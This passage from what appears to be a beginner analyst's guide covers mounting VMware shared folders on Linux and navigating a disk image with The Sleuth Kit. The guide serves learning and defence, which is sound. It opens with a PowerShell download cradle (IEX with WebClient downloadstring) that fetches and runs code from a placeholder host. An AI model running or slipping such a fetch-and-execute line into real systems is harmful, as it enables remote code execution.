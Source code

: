 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```

<a name="analysis-tools"></a>
## Analysis tips & tools

<a name="mount-share-folders-linux"></a>
### Mounting shared folders in Linux
[*back to table of contents*](#b2t)

Mounting a shared folder from a Windows host to a Linux VM in Workstation Pro. 
Open VM settings, click options, enable Shared Folders and add the host folder path.

![sharedfolder image](https://cybercodebear.github.io/beginner_analyst/images/sharedfolder.png)

On the Linux VM do the following `sudo vmware-hgfsclient`

Note the output (it should reflect the name you set when editing VM settings. For this example the output was `Challenge`

Make a directory where you want to mount the shared folder.

`sudo mkdir /mnt/hgfs/Challenge`

Connect the shared folder to the directory you created.

`sudo vmhgfs-fuse .host:/Challenge /mnt/hgfs/Challenge -o allow_other -o uid=1000`

Files should now appear on your mounted directory. If you want to automount edit `/etc/fstab`.

`.host:/{shared-folder}/{path-to-mount-on} vmhgfs defaults,ttl=5,uid=1000,gid=1000 0 0`

<a name="sleuth-kit"></a>
### The Sleuth Kit 
[*back to table of contents*](#b2t)

***LINUX-SIFT***

The Sleuth Kit (TSK) is a cmdline tool that is useful for quick incident response. The tool is designed to be used on a disk image. 

For the purpose of this section assume the disk image we're using is `DomainController.raw`.

**Get offsets**: `mmls`, will output the offsets needed for further commands. 

![mmls image](https://cybercodebear.github.io/beginner_analyst/images/mmls.png)

In the image above we can see the start of the partitions for the drives. The first NTFS partition is the reserved portion so what we're interested in is the second value, `718848`.

This is the number that we will use with the `-o` switch. 

**Check filesystem inodes**: I won't explain what inodes are here but we can use the numbers and the following commands to traverse the disk image within the cmdline. 

The following image shows the top level file structure of the disk image we're looking at; `fls -o 718848 DomainController.raw`.

![foldertraversal image](https://cybercodebear.github.io/beginner_analyst/images/foldertraversal.png)

Then lets say you want to go into and look at the users directory we can use its inode to look at it; `fls -o 718848 DomainController.raw 406`

![foldertraversal image](https://cybercodebear.github.io/beginner_analyst/images/userfolder.png)
```